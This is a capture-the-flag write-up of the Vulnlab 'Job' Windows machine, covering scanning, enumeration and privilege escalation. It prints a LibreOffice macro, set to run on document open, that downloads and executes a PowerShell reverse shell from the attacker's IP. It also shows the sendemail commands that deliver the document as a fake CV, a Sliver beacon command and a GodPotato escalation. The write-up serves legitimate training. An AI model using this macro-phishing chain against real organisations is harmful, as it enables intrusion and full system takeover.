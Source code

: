 
| Machine Name | Difficulty | Date Started | Date Completed |
| ------------ | ---------- | ------------ | -------------- |
| Job          | Medium     | 01/01/2025   | 19/01/2025     |
*Vulnlab.com* 

---

Learning Points:
- Creating and inserting a malicious macro into LibreOffice documents to gain reverse shells.
- Sending emails using `sendmail` in Linux.
- Using GodPotato4 to abuse SeImpersonatePrivilege for privilege escalation.

---

Attack Path:
- Create a malicious ODT document using LibreOffice with a reverse shell and send it using `sendmail` to gain a shell.
- Upload a malicious ASPX file to the webroot and laterally move to the service account running the webserver.
- Abuse the SeImpersonatePrivilege of the webserver service account using GodPotato and elevate to `NT AUTHORITY\SYSTEM`.

---

*Default nmap scan :*
```
# Nmap 7.94SVN scan initiated Wed Jan  1 21:21:11 2025 as: nmap -sC -sV -oA default 10.10.73.28
Nmap scan report for 10.10.73.28
Host is up (0.18s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
25/tcp   open  smtp          hMailServer smtpd
| smtp-commands: JOB, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: Job.local
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: JOB
|   NetBIOS_Domain_Name: JOB
|   NetBIOS_Computer_Name: JOB
|   DNS_Domain_Name: job
|   DNS_Computer_Name: job
|   Product_Version: 10.0.20348
|_  System_Time: 2025-01-01T15:51:40+00:00
|_ssl-date: 2025-01-01T15:52:19+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=job
| Not valid before: 2024-12-31T15:50:44
|_Not valid after:  2025-07-02T15:50:44
Service Info: Host: JOB; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-01-01T15:51:41
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan  1 21:22:21 2025 -- 1 IP address (1 host up) scanned in 69.85 seconds
```

*All ports nmap scan :*
```
# Nmap 7.94SVN scan initiated Wed Jan  1 21:27:39 2025 as: nmap -sC -sV -oA full -p- 10.10.73.28
Nmap scan report for 10.10.73.28
Host is up (0.18s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
25/tcp   open  smtp          hMailServer smtpd
| smtp-commands: JOB, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: Job.local
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=job
| Not valid before: 2024-12-31T15:50:44
|_Not valid after:  2025-07-02T15:50:44
| rdp-ntlm-info: 
|   Target_Name: JOB
|   NetBIOS_Domain_Name: JOB
|   NetBIOS_Computer_Name: JOB
|   DNS_Domain_Name: job
|   DNS_Computer_Name: job
|   Product_Version: 10.0.20348
|_  System_Time: 2025-01-01T16:04:05+00:00
|_ssl-date: 2025-01-01T16:04:44+00:00; 0s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: JOB; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-01-01T16:04:08
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan  1 21:34:45 2025 -- 1 IP address (1 host up) scanned in 425.93 seconds
```

We enumerated the available SMB shares as a null session using CrackMapExec but couldn't find anything.

<img src="attachments/1a53cce78fcb4be79eb03a22fd0a6d25.png" />

We found a webpage on port 80.

<img src="attachments/bab4bdd2c52c258cdc5e76109b2df811.png" />

We ran a directory scan but couldn't find anything.

<img src="attachments/2fd02fafe0dcb65fc8a43dd92ef8371a.png" />

The source code also didn’t reveal anything useful.

We ran a VHOST scan as well but couldn’t find anything.

<img src="attachments/457510471175a0da1c6ee34122ac6a70.png" />

*Viewed a writeup to get an idea after this step...*

It was noted that port 25 was open and the wrb page contained the info :

>Please send your application to career@job.local! We recently switched to using open source products - please send your cv as a libre office document.

Reading the [Hackthebox machine : RE writeup by oxdf](https://0xdf.gitlab.io/2020/02/01/htb-re.html) we used the method oxdf used to create a malicious macro and insert it to libre office.

We opened Libreoffice writeer and went to Tools –> Macros –> Organize Macros –> LibreOffice Basic

<img src="attachments/0b7e0fe2bdc96e08d1dd7daab444e385.png" />

We created a new macro named `legit` and inserted the below payload :

```
REM  *****  BASIC  *****

Sub Main

    Shell("cmd /c powershell ""iex(new-object net.webclient).downloadstring('http://10.8.4.157/shell.ps1')""")
    
End Sub
```

Now I need to make sure this macro is run when the document is opened. I’ll close the macro editors, and back in the document, go to Tools –> Customize and the window that pops up for me is already in the Events tab:

<img src="attachments/3c7c1e90076ca57d1861a61c424a4e22.png" />

I’ll select “Open Document” and click on the “Macro…” button. I’ll navigte to select my macro:

<img src="attachments/2e357d4904d1df118a9c495c9ded3684.png" />

When I hit “OK”, I see it now in the list. I’ll save my sheet as `shell.ods`, and exit LibreOffice.

We used this [Powershell Revershell ps1](https://github.com/martinsohn/PowerShell-reverse-shell/blob/main/powershell-reverse-shell.ps1) 

We sent the mail using the below command but was not able to see any interaction :

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Job]
└─$ swaks --to career@job.local --header "CV" --body "meow" --attach CV.odt --server job.local
```

<img src="attachments/d56205a04de9aca61b2351ebaa4328c5.png" />

Edited the macro again by putting a base64 encoded powershell from revshells.com

<img src="attachments/173f9593f5e803c842b35a157feb3e46.png" />

Saved the macro again and send the mail using a different tool but didnt get a shell either :

```
sendemail -s job.local -f "dez <dez@dez.dez>" -t career@job.local -o tls=no -m "Please see the attached for my cover letter. \n\nV/R.,\n\nDestiny" -a CV-new.odt
```


<img src="attachments/b1a577e90ce13b6ea6d26de7640ed554.png" />

---
##### Re-Attempt from Eagle

We tried everything from Eagle again and were successful.

_Macro :_
<img src="attachments/114fe95eaf3f58fcd68b773df1ff7f56.png" />

_Sending the email using sendmail :_
```
sendemail -s job.local -f "sec <sec@vulnlab.com>" -t career@job.local -o tls=no -m "hey pls check my cv http://10.8.4.157/" -a eaglecv.odt
```

We were successfully able to get a flag as the user `jack.black` and retrieve the user flag.

<img src="attachments/1547b5ef2f0f749469fb44aec53781db.png" />

### Privilege Escalation

We transferred a Sliver beacon to make further exploitation easier.

```
generate beacon --os windows --arch amd64 --http 10.8.4.157 --save rev.exe
```

We checked the privileges for the user but were not able to find anything exploitable.

<img src="attachments/6ef38426be96e449d535daeac6689436.png" />

If we go to the web root directory `C:\inetpub\wwwroot`, we can see that we can write there, and since the web server is running as service account we can get a shell as that account and then use something like `SeImpersonatePrivilege` to escalate privileges.

<img src="attachments/d55758772ea01dc1130d75777336283c.png" />

Using the webshell, we executed the beacon again as `IIS APPPOOL\DefaultAppPool`.

<img src="attachments/23bcfdca0306840375864f76f3dbf4bb.png" />

We used GodPotato with Sliver to run the beacon as `NT AUTHORITY\SYSTEM` and retrieved the root flag.

<img src="attachments/b4839e6fa23b27aa0e4f15cad86cefd3.png" />

----